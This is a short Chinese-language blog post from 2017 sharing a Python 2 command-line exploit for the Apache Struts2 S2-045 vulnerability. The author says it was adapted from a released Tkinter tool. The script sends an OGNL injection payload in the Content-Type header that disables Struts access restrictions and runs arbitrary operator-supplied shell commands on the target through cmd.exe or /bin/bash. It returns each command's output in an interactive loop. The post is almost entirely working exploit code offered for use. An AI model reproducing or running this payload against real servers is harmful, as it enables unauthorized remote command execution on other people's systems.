```yaml
---
id: 91
title: s2-045
date: 2017-08-12T11:57:00+00:00
author: bfpiaoran
layout: post
guid: http://www.cuijianxiong.top/?p=91
permalink: /?p=91
categories:
  - 未分类
---
```

放出来的exp是用Tkinter 写的

给改了改改成命令行的 233333 有很多误报啊

<pre line="1">#encoding:utf-8
import urllib2
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
 
 
def poc(w_url):
    cmd = raw_input('command  \n')
    register_openers()
    header ={"image1": '23333'}
    header[
        "User-Agent"] = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header[
        "Content-Type"] = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='" + cmd + "').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(w_url, headers=header)
    response = urllib2.urlopen(request).read()
    print(response)
 
 
if __name__=='__main__':
    print 'blog :  http://www.cuijianxiong.com'
    w_url = raw_input('addrs : \n')
    is_shutdown = 1
    while is_shutdown == 1:
        poc(w_url)
</pre>

需要安装poster模块  
<img src="http://www.cuijianxiong.top/wp-content/uploads/2017/08/8-300x113.png" alt="" width="300" height="113" class="alignnone size-medium wp-image-92" srcset="http://www.cuijianxiong.top/wp-content/uploads/2017/08/8-300x113.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/8-768x290.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/8-230x87.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/8-350x132.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/8-480x181.png 480w, http://www.cuijianxiong.top/wp-content/uploads/2017/08/8.png 816w" sizes="(max-width: 300px) 85vw, 300px" />